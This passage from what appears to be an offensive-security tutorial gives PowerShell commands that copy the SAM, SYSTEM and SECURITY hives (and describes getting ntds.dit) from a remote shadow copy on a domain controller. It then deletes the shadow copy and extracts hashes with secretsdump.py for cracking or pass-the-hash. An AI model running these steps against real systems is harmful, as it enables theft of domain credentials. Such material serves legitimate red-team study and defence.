 # Obtain credential files
We want to copy the files from the SMB share, not simply from the `C$` share, but from the specific shadow copy we created. In Windows Explorer shadow copies are also known as Previous Versions which can be listed by opening the properties of a certain folder and then navigating to the Previous Versions tab. These Previous Versions are also accessible from the command line which is a date in a certain format prefixed with the @-symbol. Based on the shadow copy which is stored in the `$c` variable, we will compile the path from which to copy the files in the following PowerShell line.
```powershell
PS C:\> $p = '\\{0}\C$\{1}\Windows\System32\config' -f $h,$c.InstallDate.ToUniversalTime().ToString("'@GMT-'yyyy.MM.dd-HH.mm.ss")
PS C:\> $p
\\DC01.mydomain.local\C$\@GMT-2020.04.19-19.34.01\Windows\System32\config
```
After compiling the path we will copy the required files using the copy command to our local disk (in this case `C:\tmp`). Because creating the shadow copy might take a while when attempting to copy the files from the shadow copy path too quickly, it will result in an error that the path does not exist. In that case wait a bit and try again. Alternatively, in case you are logged in interactively, open the Properties of the `C$` share of the victim host in Windows Explorer and click Open for the shadow copy you created. In case you want to obtain the password hashes from a Domain Controller, this approach can also be used to remotely obtain the `ntds.dit` file from the (by default) `%SystemRoot%\NTDS` folder.
```powershell
PS C:\> copy $p\SYSTEM C:\tmp
PS C:\> copy $p\SECURITY C:\tmp
PS C:\> copy $p\SAM C:\tmp
```
After we successfully obtained the files containing the credentials we will perform the cleanup of shadow copy we created and close the connection to the victim host.
```powershell
PS C:\> $c | Remove-CimInstance
PS C:\> $s | Remove-CimSession
```

# Obtain and crack hashes
With the `SYSTEM`, `SECURITY` and `SAM` files or `SYSTEM` and `NTDS.dit` file now in our `C:\tmp` folder we can use our favorite tool to obtain the hashes. An example of such tool is `secretsdump.py` from Impacket [^2]. 

## SAM
```bash
secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
```

## ntds.dit
```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```
Subsequently the resulting hashes can be cracked with tools like John or Hashcat, or used in a pass the hash attack.


[^1]: [Microsoft Docs - Create method of the Win32_ShadowCopy class](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/vsswmi/create-method-in-class-win32-shadowcopy)
[^2]: [secretsdump.py in the Impacket library repository](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)